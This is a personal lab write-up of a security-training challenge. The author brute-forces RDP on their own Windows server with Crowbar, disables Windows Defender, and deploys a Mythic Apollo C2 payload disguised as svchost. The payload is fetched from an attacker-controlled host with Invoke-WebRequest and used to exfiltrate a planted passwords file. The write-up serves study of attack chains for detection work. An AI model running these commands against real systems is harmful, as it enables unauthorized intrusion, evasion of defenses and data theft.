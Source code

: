 # Day 21: Mythic Agent Setup
## Objective
In this section, I will learn how to perform a brute force attack, generate a Mythic agent, and establish C2 (command & control).

## Steps
Firstly, if you can remember, we're going to extract passwords from a file on our Windows server called "passwords.txt." This is for demonstration purposes which is why it's referred to as a "fake" file in the attack diagram. Nonetheless, this will serve as data we will try to exfiltrate from the machine.

This time around, instead of going into the console via Vultr, I'm just going to RDP into the machine. I have no clue why I couldn't figure this out sooner, but here we are! I've learned a lot from this challenge, that's for sure.

<p align="center"><img src="https://i.imgur.com/WugLTVP.png"></p>
<p align="center"><i>Ref 1: Using RDP to connect to our Windows machine to create a file called "passwords.txt" that will serve as our target for the brute force attack we're going to perform!</i></p>
<br>

We're done with the Windows instance for now. Let's go to our Kali machine and start looking at the resources we have on hand.

Kali Linux comes with password dictionaries. We can find them using these commands:

<p align="center"><img src="https://i.imgur.com/mFWVBOH.png"></p>
<p align="center"><i>Ref 2: Preinstalled password dictionaries on Kali.</i></p>
<br>

We're going to be using `rockyou.txt`. As a proof of concept, I'm going to put my Windows machine's password into this text file. I know it's cheating, but since the purpose of this challenge is to learn how to brute force machines and how such attacks work, this is fine for now. As a note, I'm only going to use the top 50 passwords since the actual file is quite large. I used `head -50 rockyou.txt > /home/dsuyu/dsuyu-wordlist.txt` to save those top 50 (+ my Windows password) into the wordlist we'll use for the attack.

We'll be using Crowbar to perform an RDP brute force attack over to our Windows machine. To do this, I used the `crowbar -b rdp -u Administrator -C dsuyu-wordlist.txt -s 155.138.242.206/32` command. `-b` specifies the RDP service, `-u` is the user account, `-C` is the source of our passwords that we want to try to authenticate with, and `-s` specifies the specific IP address I want to use. `/32` means we're only interested in this specific IP address. I won't show the password for now, since somebody seeing the password while I'm still trying to complete the challenge would be problematic, to say the least.

<p align="center"><img src="https://i.imgur.com/M9g2wgK.png"></p>
<p align="center"><i>Ref 3: Crowbar successfully brute-forced the machine.</i></p>
<br>

Now that we have our credentials, we can RDP from our Kali machine by using `xfreerdp`. Running the command `xfreerdp /u:Administrator /p:[password] /v:155.138.242.206:3389`, we can RDP into the machine.

<p align="center"><img src="https://i.imgur.com/8iFtNp0.png"></p>
<p align="center"><i>Ref 4: I've successfully RDP'd into the machine!</i></p>
<br>

Looking at our attack diagram, once we've established a connection, the next step is to do some recon. For example, we can run the command `net user Administrator` to learn more about our privileges. In a real scenario, an attack might compromise an account, say, for example, "Steven," and they would have to run a command like `net user` to figure out what privileges they have or to what group they belong to. 

Once we've done reconnaissance, we can move to Phase 3: Defense Evasion. I'll turn off Windows Defender via the command line. We could also do this the BORING way by going into Settings and turning everything off.

<p align="center"><img src="https://i.imgur.com/ulBvkwF.png"></p>
<p align="center"><i>Ref 5: Disabling real-time monitoring from the command line.</i></p>
<br>

After Phase 3 follows Phase 4: Execution. In Phase 4, we need to create our Mythic agent and payloads. Any configuration needs to be done within the Mythic CLI.

We're going to be using the Apollo agent for our purposes. We can install it using the command `./mythic-cli install github https://github.com/MythicAgents/Apollo.git`. You can find Apollo's documentation [here](https://github.com/MythicAgents/Apollo).

<p align="center"><img src="https://i.imgur.com/MDsXRQa.png"></p>
<p align="center"><i>Ref 6: Apollo now appears within our web GUI under "C2 profiles and payload types."</i></p>
<br>

Now, we can install a C2 profile. What is a C2 profile? A C2 profile provides a way to get messages off the wire and forward them to the Mythic server. In our case, we'll use the HTTP profile.

<p align="center"><img src="https://i.imgur.com/9FGS1kR.png"></p>
<p align="center"><i>Ref 7: Our HTTP C2 profile has been installed.</i></p>
<br>

Now how do we create a payload? Easy, just select the hazard icon at the top and make a new payload. We want the C2 profile to call back to our Mythic server, so we'll modify the callback host to be `http://207.148.3.13`.

<p align="center"><img src="https://i.imgur.com/Wr5zoYm.png"></p>
<p align="center"><i>Ref 8: Configuring our C2 profile.</i></p>
<br>

Now that we've made the payload and it's ready to download, we'll grab that download link and use `wget` to download it to our server.

<p align="center"><img src="https://i.imgur.com/CXR5uKH.png"></p>
<p align="center"><i>Ref 9: I've downloaded the payload onto our Mythic server, and I've renamed it so it looks less conspicuous.</i></p>
<br>

Cool! I made a directory called `1` and moved our new executable into there. Then, I started an HTTP server using Python with the `python3 -m http.server 9999` command on our Mythic server. Now that we're running that HTTP server, we can download the payload executable onto the compromised Windows server from our HTTP server by running `Invoke-WebRequest -Uri http://207.148.3.13:9999/svchost-dsuyu.exe -OutFile "C:\Users\Public\Downloads\svchost-dsuyu.exe"` from Windows PowerShell via our RDP connection to the Windows server.

<p align="center"><img src="https://i.imgur.com/VvBCRh3.png"></p>
<p align="center"><i>Ref 10: Downloading the payload onto our Windows server so we can establish a command and control connection.</i></p>
<br>

In other words, the command downloads the executable from our remote Mythic server. Executing the file means we're now receiving callbacks from our agent to our Mythic server. Effectively, the Windows machine is totally pwned and it's all over from here. Now, using our web GUI, we can run commands such as `ifconfig`, `whoami`, and most importantly, `download`. We're going to download that `passwords.txt` file we made earlier.

<p align="center"><img src="https://i.imgur.com/fZKlLww.png"></p>
<p align="center"><i>Ref 11: Within our C2 profile configuration, I enabled a few commands that we'd be able to run once we started receiving callbacks. Here, I'm running those commands.</i></p>
<br>

Notably, there were a few ports we had to open to make this all work out. For example, we had to open port 80 on our Mythic server so that the two servers could actually communicate over HTTP. I also allowed port 9999 on our Mythic server. Like before, we have to make firewall rules not only for the Vultr firewalls but also for our server firewalls.

## Summary
In this section, I conducted my own brute force attack using Kali Linux and Crowbar, RDP'd into the compromised Windows server, and installed my Mythic agent along with a Mythic server. Using the Mythic server, I was able to run an HTTP server using Python so that I could install the payload from within my Windows server. Once the payload was installed and running, I could use the Mythic web GUI to run commands. I established a command and control connection thanks to the Apollo agent and HTTP C2 profile.

You can read more on C2 profiles [here](https://docs.mythic-c2.net/operational-pieces/c2-profiles).


